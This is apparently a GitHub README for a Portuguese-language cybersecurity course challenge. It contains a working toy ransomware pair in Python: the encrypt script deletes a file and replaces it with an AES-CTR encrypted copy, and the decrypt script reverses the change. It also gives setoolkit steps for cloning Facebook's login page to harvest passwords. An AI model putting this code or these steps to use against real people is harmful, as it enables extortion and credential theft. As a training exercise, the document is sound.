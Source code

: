 # Desafio-CiberSecurity 

## Ransomware na Prática com Python no Kali Linux

Encriptografar/descriptografar arquivo txt com código python.
-    Código decrypt
-         import os
          import pyaes
          abrir o arquivo criptografado
          file_name = "teste.txt.ransomwaretroll"
          file = open(file_name, "rb")
          file_data = file.read()
          file.close()

          chave para descriptografia
          key = b"testeransomwares"
          aes = pyaes.AESModeOfOperationCTR(key)
          decrypt_data = aes.decrypt(file_data)

          remover o arquivo criptografado
          os.remove(file_name)

          criar o arquivo descriptografado
          new_file = "teste.txt"
          new_file = open(f'{new_file}', "wb")
          new_file.write(decrypt_data)
          new_file.close()

-    Código encrypt
-         import os
          import pyaes

          abrir o arquivo a ser criptografado
          file_name = "teste.txt"
          file = open(file_name, "rb")
          file_data = file.read()
          file.close()

          remover o arquivo
          os.remove(file_name)

          chave de criptografia
          key = b"testeransomwares"
          aes = pyaes.AESModeOfOperationCTR(key)

          criptografar o arquivo
          crypto_data = aes.encrypt(file_data)

          salvar o arquivo criptografado
          new_file = file_name + ".ransomwaretroll"
          new_file = open(f'{new_file}','wb')
          new_file.write(crypto_data)
          new_file.close()
  
- Ferramentas
    - Kali Linux
- Biblioteca Python
    - Pyaes
      
# Desafio-CiberSecurity
## Pishing para captura de senhas do Facebook 

- Ferramentas
    -  Kali Linux
    -  setoolkit

# A partir do Kali Linux, configurações para o processo de captura no ataque de engenharia social

- Acesso Root : sudo su
- Iniciando setoolkit
- Tipo de ataque: Social Engineering Attacks
- Vetor de ataque: Web Site Attack Vectors
- Método de ataque: Credential Harvester Attack Method
- Método de ataque: Site Cloner
- Obtendo o endereço da máquina Ifconfig
- URL para clone: http//www.Facebook.com

  # Resultado

  ![Captura de tela 2023-08-29 140141](https://github.com/MarcelHarding/Desafio-CiberSecurity/assets/106993667/bbd19914-d8b9-4681-9e0c-a9f59d88e7e0)
